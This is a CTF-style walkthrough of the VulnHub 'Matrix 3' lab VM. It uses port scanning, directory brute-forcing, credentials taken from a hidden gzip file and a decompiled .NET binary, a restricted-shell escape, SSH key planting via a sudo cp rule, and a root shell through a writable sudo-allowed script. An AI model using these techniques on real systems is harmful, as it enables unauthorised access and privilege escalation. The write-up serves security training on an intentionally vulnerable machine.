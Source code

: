 
Discovery

Nmap Scanning

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.101
Host is up (0.00049s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
|_http-title: Welcome in Matrix
MAC Address: 08:00:27:E5:B2:AA (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.49 ms 192.168.56.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.91 seconds

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scanning All Ports

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-04 04:22 EDT
Nmap scan report for 192.168.56.101
Host is up (0.000056s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
80/tcp   open  http
6464/tcp open  ieee11073-20701
7331/tcp open  swx
MAC Address: 08:00:27:E5:B2:AA (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 14.40 seconds

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Dirbuster discovered the following image:
Matrix_can-show-you-the-door.png

Browsing http://192.168.56.101/matrix

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/matrix3# dirb http://192.168.56.101/Matrix

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Oct  4 05:27:16 2019
URL_BASE: http://192.168.56.101/Matrix/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.101/Matrix/ ----
+ http://192.168.56.101/Matrix/4 (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/6 (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/c (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/d (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/e (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/i (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/k (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/n (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/o (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/u (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/v (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/w (CODE:301|SIZE:0)                             
                                                                    
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We found a file called secret.gz and found the login credentials to 192.168.56.101:7331


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/matrix3# wget http://192.168.56.101/Matrix/n/e/o/6/4/secret.gz
--2019-10-04 05:28:28--  http://192.168.56.101/Matrix/n/e/o/6/4/secret.gz
Connecting to 192.168.56.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 39 [application/octet-stream]
Saving to: ‘secret.gz’

secret.gz         100%[===================>]      39  --.-KB/s    in 0s      

2019-10-04 05:28:28 (3.46 MB/s) - ‘secret.gz’ saved [39/39]

root@setrus:~/vulnhub/matrix3# strings secret.gz
admin:76a2173be6393254e72ffa4d6df1030a

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




After logging in we crawl the application

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# curl -H "Authorization: Basic YWRtaW46cGFzc3dk" http://192.168.56.101:7331/robots.txt
User-agent: *
Disallow: /data/

root@setrus:~# curl -H "Authorization: Basic YWRtaW46cGFzc3dk" http://192.168.56.101:7331/data/

<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>
<title>Directory listing for /data/</title>
<body>
<h2>Directory listing for /data/</h2>
<hr>
<ul>
<li><a href="data">data</a>
</ul>
<hr>
</body>
</html>


root@setrus:~/vulnhub/matrix3# curl -H "Authorization: Basic YWRtaW46cGFzc3dk" http://192.168.56.101:7331/data/data --output data
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  9696  100  9696    0     0  1893k      0 --:--:-- --:--:-- --:--:-- 1893k
root@setrus:~/vulnhub/matrix3# ls -al data
-rwxr-xr-x 1 root root 9696 Oct  4 05:35 data
root@setrus:~/vulnhub/matrix3# file data
data: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


This is Windows executable file
We open it with Ghidra :  we found the username and password to login via ssh


Credentials : 
guest
7R1n17yN30


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/matrix3# ssh guest@192.168.56.101 -p6464
guest@192.168.56.101's password: 
Last login: Fri Oct  4 09:40:35 2019 from 192.168.56.102
guest@matrix:~$ id
-rbash: id: command not found
guest@matrix:~$
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Escaping restricted shell

Logging in without profile

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
oot@setrus:~/vulnhub/matrix3# ssh guest@192.168.56.101 -p6464 -t "bash --noprofile"
guest@192.168.56.101's password: 
guest@matrix:~$ id
uid=1000(guest) gid=100(users) groups=100(users),7(lp),11(floppy),17(audio),18(video),19(cdrom),83(plugdev),84(power),86(netdev),93(scanner),997(sambashare)
guest@matrix:~$ sudo -l
User guest may run the following commands on matrix:
    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
    (trinity) NOPASSWD: /bin/cp
guest@matrix:~$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


users has sudo -l to trinity user
In order to get access as user trinty, create a pair of ssh-keys and copy them in authorization_keys for trinity

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
guest@matrix:~/.ssh$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/guest/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/guest/.ssh/id_rsa.
Your public key has been saved in /home/guest/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:xP5TWyA6dhta9PcJTbXSjGgYKzAYgOyk+Ss8SYI0QuM guest@matrix
The key's randomart image is:
+---[RSA 2048]----+
|o...oo   .      .|
|.= .  o.  + . + o|
|*..    .oooo.o = |
|+E     o.o.o .+  |
|+..     S + o.o. |
|o..    . * + +...|
|+ ..    . + .  ..|
|.+.        .     |
| ..              |
+----[SHA256]-----+
guest@matrix:~/.ssh$ ls
id_rsa  id_rsa.pub  known_hosts
guest@matrix:~/.ssh$ chmod 777 id_rsa.pub 
guest@matrix:~/.ssh$ cp id_rsa.pub ../
guest@matrix:~/.ssh$ cd ..
guest@matrix:~$ ls
Desktop/    Downloads/  Pictures/  Videos/      prog/
Documents/  Music/      Public/    id_rsa.pub*
guest@matrix:~$ sudo -u trinity /bin/cp id_rsa.pub /home/trinity/.ssh/authorized_keys

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege escalation to root

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
guest@matrix:~$ ssh trinity@192.168.56.101 -p6464
The authenticity of host '[192.168.56.101]:6464 ([192.168.56.101]:6464)' can't be established.
ECDSA key fingerprint is SHA256:BMhLOBAe8UBwzvDNexM7vC3gv9ytO1L8etgkkIL8Ipk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[192.168.56.101]:6464' (ECDSA) to the list of known hosts.
Last login: Mon Aug  6 16:37:45 2018 from 192.168.56.102
trinity@matrix:~$ sudo -l
User trinity may run the following commands on matrix:
    (root) NOPASSWD: /home/trinity/oracle
trinity@matrix:~$ ls
Desktop/  Documents/  Downloads/  Music/  Pictures/  Public/  Videos/
trinity@matrix:~$ echo '/bin/bash' > oracle
trinity@matrix:~$ chmod +x oracle 
trinity@matrix:~$ sudo /home/trinity/oracle
root@matrix:/home/trinity# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



